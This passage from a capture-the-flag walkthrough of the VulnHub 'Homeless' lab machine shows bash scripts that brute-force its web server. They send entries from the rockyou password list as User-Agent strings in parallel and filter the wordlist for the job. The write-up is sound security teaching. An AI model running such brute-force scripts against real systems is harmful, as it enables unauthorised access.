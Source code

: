 Indeed, Line 32 of the HTTP response always shows the supplied `User-Agent` string.

### Finding the Way Home

Recall the hint about the "rockyou" password list? Perhaps the secret to finding the way home is by submitting one of the entries in the list as `User-Agent` to the site?

There's one problem. Rockyou password list has about 14 million entries. It'll take ages to submit the entries one at a time. Surely, we need some form of parallelism.

For that, I'm using [parallel][4], a command-line driven utility for Linux and other Unix-like operating systems which allows the user to execute shell scripts in parallel.

I expand `check.sh` to include logic to stop when line 32 of the HTTP response is different from the supplied `User-Agent` string.

<div class="filename"><span>check.sh</span></div>
```bash
#!/bin/bash

HOST=192.168.198.130
UA=$1

die() {
    for pid in $(ps aux \
                 | grep -v grep \
                 | grep brute \
                 | awk '{ print $2 }'); do
        kill -9 $pid &>/dev/null
    done
}

RESP=$(curl -s -A "$UA" $HOST \
       | sed '32!d' \
       | sed -r -e 's/^[ \t]+//' -e 's/\t+.*$//')

if [ "$UA" != "$RESP" ]; then
    echo "[!] Found: \"$UA\" - $RESP"
    die
fi
```

On top of that, I wrote `brute.sh`, a wrapper script to feed a wordlist to `check.sh` in parallel, taking advantage of my multi-core Kali Linux VM.

<div class="filename"><span>brute.sh</span></div>
```bash
#!/bin/bash

parallel ./check.sh < $1 >> $2
```

I reduce the size of the "rockyou" list by preserving alphanumeric characters and splitting the list into sub-lists of 1000 lines each.

```
# grep -Pao '^[a-zA-Z0-9]+$' rockyou.txt > reducio.txt
# split -a5 reducio.txt -d reducio_
```


[1]: https://www.vulnhub.com/entry/homeless-1,215/
[2]: http://www.creatigon.com/
[3]: https://www.vulnhub.com
[4]: https://www.gnu.org/software/parallel/
[5]: http://php.net/manual/en/language.basic-syntax.phptags.php
[6]: http://php.net/manual/en/language.operators.execution.php
[7]: https://sfrolov.io/2016/09/multiple-md5-collisions
[8]: https://en.wikipedia.org/wiki/Percent-encoding
